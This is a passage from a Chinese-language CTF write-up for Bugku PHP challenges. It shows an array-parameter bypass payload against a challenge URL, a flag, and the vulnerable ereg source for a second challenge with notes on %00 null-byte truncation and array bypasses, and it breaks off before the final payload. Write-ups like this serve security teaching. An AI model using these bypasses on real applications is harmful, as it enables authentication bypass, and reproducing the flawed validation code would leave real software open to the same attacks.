 ### writeup

1. 数组绕过

2. 构造payload：

   http://123.206.87.240:9009/7.php?name[]=1&password[]=2

### flag

flag{bugku–daimasj-a2}

## 0x09ereg正则%00截断

### [题目地址](http://123.206.87.240:9009/5.php)

### 题目源码

```
<?php
$flag = "xxx";
if (isset ($_GET['password'])){
	if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE){
		echo 'You password must be alphanumeric';
	}
	else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999){
		if (strpos ($_GET['password'], '-') !== FALSE){//strpos — 查找字符串首次出现的位置
			die('Flag: ' . $flag);
		}
		else{
			echo('have not been found');
		}
	}
	else{
		echo 'Invalid password';
	}
}
?>
```

### writeup

1. `if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)`
   password匹配必须 a-z A-Z 0-9 之中

   这个可以用%00截断

2. `if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999)`

   password小于8位数 且 大于9999999

3. `if (strpos ($_GET['password'], '-') !== FALSE)`

   数组绕过同时也可以绕过这个
